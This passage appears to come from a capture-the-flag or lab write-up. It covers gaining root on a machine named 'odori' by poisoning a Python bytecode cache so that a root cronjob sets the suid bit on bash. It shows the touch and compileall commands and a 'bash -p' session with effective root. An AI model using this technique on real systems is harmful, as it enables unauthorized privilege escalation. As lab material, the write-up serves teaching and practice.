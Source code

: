 
```
touch -d '2015-08-09 13:38:36.000000000 +0000' /backup/ancient
```

We wait for the cronjob to execute and get the suid bit on bash, allowing us to become root :)

```
svc_backup@odori:/$ bash -p
bash-5.1# id
uid=1001(svc_backup) gid=1001(svc_backup) euid=0(root) groups=1001(svc_backup)
```

There is also a much more cleaner way to manipulate the cache file (thanks @acters) - you can create a new "helper.py" file with arbitrary code and compile it yourself instead of relying on python to do it:

```
python3 -m compileall helper.py --invalidation-mode unchecked-hash
```

The important part here is to specify `--invalidation-mode unchecked-hash` which will lead to the resulting file not checking the timestamp or hash of the original file and therefore not trigger automatic recompilation when python is importing `helper.py` when `app.py` is run (see: [https://docs.python.org/3/library/compileall.html#cmdoption-compileall-invalidation-mode](https://docs.python.org/3/library/compileall.html#cmdoption-compileall-invalidation-mode)).

